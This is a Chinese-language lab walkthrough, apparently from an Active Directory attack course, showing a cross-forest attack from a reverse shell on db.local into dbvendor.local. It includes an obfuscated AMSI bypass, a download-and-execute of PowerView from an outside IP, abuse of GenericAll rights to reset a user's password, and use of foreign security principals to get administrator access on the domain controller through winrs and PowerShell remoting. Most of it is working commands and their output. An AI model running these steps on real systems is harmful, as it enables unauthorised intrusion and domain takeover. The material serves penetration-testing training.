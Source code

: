 Task
•  Using the reverse shell on db.local:
	−  Execute cross forest attack on dbvendor.local by abusing ACLs
•  Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs.


- 什么是FSPs？

> A foreign security principal (sometimes referred to by the acronym FSP) is an object created by the Active Directory system to represent a security principal in a trusted external forest. FSPs can also represent special identities, such as the "Authenticated Users" group. This allows the external security principals and special identities to be added to domain local security groups in the domain and granted permissions to resources.

> (foreign security principal（有时用缩写FSP）是由活动目录系统创建的一个对象，代表受信任的外部森林中的安全委托人。FSP也可以代表特殊身份，如 "已认证用户 "组。这使得外部安全委托人和特殊身份可以被添加到域中的域本地安全组，并被授予资源的权限。)


#  Using the reverse shell on db.local:
	−  Execute cross forest attack on dbvendor.local by abusing ACLs


在DB-SQLSrv的rev shell上
```
PS C:\Windows\system32>whoami
db\srvdba
PS C:\Windows\system32> hostname
DB-SQLSrv
```

bypass amsi
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

引入pv
```
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.138/PowerView.ps1')
```

枚举林信任
```
PS C:\Windows\system32> Get-ForestTrust


TopLevelNames            : {dbvendor.local}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {dbvendor.local}
SourceName               : db.local
TargetName               : dbvendor.local
TrustType                : Forest
TrustDirection           : Bidirectional

```

枚举dbvendor.local这个域里特殊的acl
```
PS C:\Windows\system32> Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local


....

ObjectDN                : CN=db138svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

...
```

在dbvendor.local域里，srvdba（当前用户）对db138svc（或者db(x)svc）这个用户有GenericAll权限

这表示可以对这个用户重置密码，Set SPN 等等


给这个用户重置一个密码

```
Set-DomainUserPassword -Identity db138svc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local -Verbose
```

# Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs.

枚举FSPs 

```
PS C:\Windows\system32> Find-ForeignGroup -Verbose


...

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-10608
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-10608,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-10607
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-10607,CN=ForeignSecurityPrincipals,DC=db,DC=local

....


```

FSPs是本地管理员，选取其中一个，正是我们上面改密码的db138svc

```
PS C:\Windows\system32> Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-10608'}


logoncount            : 0
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=db138svc,CN=Users,DC=dbvendor,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : db138svc
userprincipalname     : db138svc
name                  : db138svc
objectsid             : S-1-5-21-569087967-1859921580-1949641513-10608
samaccountname        : db138svc
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 11/8/2022 2:40:41 PM
instancetype          : 4
usncreated            : 86134
objectguid            : 02bfca78-721a-43bf-b217-4b1c3d41aa53
sn                    : svc
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=dbvendor,DC=local
dscorepropagationdata : {7/25/2022 11:08:49 AM, 7/25/2022 11:08:49 AM, 1/1/1601 12:00:00 AM}
givenname             : db138
lastlogon             : 12/31/1600 4:00:00 PM
badpwdcount           : 0
cn                    : db138svc
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 7/25/2022 11:08:49 AM
primarygroupid        : 513
pwdlastset            : 11/8/2022 6:40:41 AM
usnchanged            : 86344
```

这表示我们可以利用db138svc来提升权限

使用winrs
```
PS C:\Windows\system32> winrs -r:db-dc.db.local -u:dbvendor\db138svc -p:Password@123 "whoami"

dbvendor\db138svc
```


使用PowerShell Remoting

```
PS C:\Windows\system32> $passwd = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("dbvendor\db138svc", $passwd)
PS C:\Windows\system32> $dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds
PS C:\Windows\system32> Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc
dbvendor\db138svc
DB-DC
PS C:\Windows\system32>
```